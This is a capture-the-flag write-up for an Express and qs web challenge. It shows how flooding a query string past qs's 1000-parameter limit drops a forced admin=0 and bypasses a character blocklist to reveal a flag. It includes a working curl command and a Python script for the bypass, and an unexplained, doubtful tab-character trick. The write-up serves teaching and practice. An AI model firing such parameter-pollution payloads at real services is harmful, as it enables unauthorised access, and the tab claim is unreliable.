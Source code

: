 ## 🧠 My Best Friend

---

### 📜 Description

Dreamee has created a web service that greets everything she says — but something weird has been happening lately.

Flag format: `null{...}`  
Tech stack: **Express** + **qs** module.

---

### 🔍 Code Analysis

The service exposes the following endpoints:

- `GET /`: Returns a static HTML file.
- `POST /greet`: Sends a message to `/api` as a query string.
- `GET /api`: Returns the flag if `req.query.admin != 0`.

However, the `/greet` endpoint **sanitizes** inputs to prevent tampering:

```javascript
if (
  msg.includes('admin') || msg.includes('\\') || msg.includes('%') ||
  msg.includes('?') || msg.includes(';') || msg.includes('#') ||
  msg.includes('[') || msg.includes(']')
) return res.json({ result: 'Not allowed character' });
```

So `admin=1`, `?`, `%`, and other common attack vectors are **filtered**.

---

### 💥 Vulnerability

Despite filtering, the backend builds the request like this:

```javascript
const fullUrl = `http://localhost:3000/api?msg=${msg}&admin=0`;
const resp = await axios.get(fullUrl);
```

The key insight: The server uses **qs** module (default in Express) to parse query strings.

By default, `qs` only parses up to **1000 parameters**. If we flood it with parameters like:

```
1&1&1&1&... (more than 1000 times)
```

The trailing `admin=0` will be **ignored** during parsing.

Thus, `req.query.admin` becomes `undefined`, and:

```javascript
Number(undefined) !== 0 // evaluates to true
```

So the condition is satisfied and the flag is returned.

---

### 🚀 Exploit

```bash
curl -X POST http://host/greet \
  -d "msg=$(python3 -c 'print("&1"*1001)')"
```

Or in Python (e.g. via requests):

```python
import requests

url = "http://host/greet"
payload = "&1" * 1001
res = requests.post(url, data={"msg": payload})
print(res.text)
```

💡 This causes the server to call:

```
http://localhost:3000/api?&1&1&1&...&admin=0
```

But `admin=0` is ignored due to the 1000 parameter limit, so `admin` becomes `undefined`.

---

### ⚠️ Unintended Bypass (Unicode)

An unintended solution: inject `admin` using **non-blocked unicode characters**, e.g. tab:

```
1&ad[TAB]min=1
```

The tab character (`%09`) is **not filtered**, so `admin=1` is parsed successfully.

---

### 📌 Key Takeaways

- Express uses the `qs` module under the hood to parse query strings.
- The default `parameterLimit` in `qs` is 1000 — anything beyond is ignored.
- Query pollution is possible via parameter overloading.
- Input filtering isn't always enough if the backend logic is vulnerable.

---

### 🔗 Reference

- `qs` GitHub: https://github.com/ljharb/qs  
  > “By default, qs will only parse up to 1000 parameters.”
